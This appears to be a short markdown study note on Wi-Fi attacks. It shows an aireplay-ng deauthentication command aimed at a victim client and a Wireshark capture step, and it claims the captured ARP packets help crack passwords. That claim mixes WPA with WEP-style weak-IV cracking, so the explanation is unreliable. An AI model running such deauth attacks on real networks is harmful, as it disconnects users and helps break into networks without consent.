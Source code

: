 # WPA/WPA2 Attacks

### De-authentication attack

Forcing the client to disconnect

```bash
#-0 deauth attack
#1 number of deauth attack packet to send 
aireplay-ng -0 1 -a <AP-mac-addr> -c <Victim-mac-addr> mon0

# On Client machine, observe that continuous ping is broken suddenly (the client has de-authenticated and tries to re-connect. In this process, the process is being monitored by our )

# view the packets (total 4 of them in the fake authentication of mac to accesspoint)
wireshark wepfile1
```

By capturing these arp packets, an attacker is able to use this to generate a large number of weak IV - subsequently able to crack the password

